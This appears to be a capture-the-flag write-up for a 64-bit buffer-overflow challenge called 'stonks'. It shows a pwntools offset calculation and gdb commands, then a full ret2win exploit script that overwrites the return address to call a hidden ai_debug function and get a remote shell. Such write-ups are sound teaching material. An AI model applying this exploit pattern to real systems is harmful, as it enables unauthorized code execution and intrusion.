![](https://i.imgur.com/4TQlAAb.png)

* after disassembling :

![](https://i.imgur.com/kWPHsUD.png)

* vuln function disassembled :

![](https://i.imgur.com/3vtnhI6.png)

* gets is used, lets calculate the offset at which it crashes :

```python
from pwn import *

p = process("./chal")
p.sendline(cyclic(200, n=8)) # n -> architecture | 8 -> 64bit
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print(offset)
```

OUTPUT :

![](https://i.imgur.com/lnJzUdv.png)

* offset is 40

* finding all functions :

```
info functions
```

![](https://i.imgur.com/Exr3Lpn.png)

* when we checked `ai_debug` we found that it has a system call!

![](https://i.imgur.com/dkIt84r.png)

* then we checked what its doing :

```
b main
run
jump ai_debug
```

OUTPUT :

![](https://i.imgur.com/GNtmC13.png)

* it is executing `/usr/bin/dash` so we can get a shell if we can call ai_debug function

* Address of ai_debug :

![](https://i.imgur.com/RJKtmm1.png)

Exploit :

```python
#!/usr/bin/python3

from pwn import *

host = 'stonks.hsc.tf'
port = 1337
offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num

conn = remote(host, port)
conn.recvuntil('symbol:')
conn.sendline(buffer)
conn.interactive()
```

* Return address has been added because there is a stack alignment issue caused by LIBC present in Ubuntu i.e. the container running on the target

* Exploit was working locally but not remotely so we found this reddit thread

* https://www.reddit.com/r/securityCTF/comments/nbb5z2/buffer_overflow_works_fine_locally_but_not/

* Thanks to [Andr3](https://github.com/AndreaCarosi-7) and hiatus!

OUTPUT :

![](https://i.imgur.com/hvb09bs.png)

### Flag

```
flag{to_the_moon}
```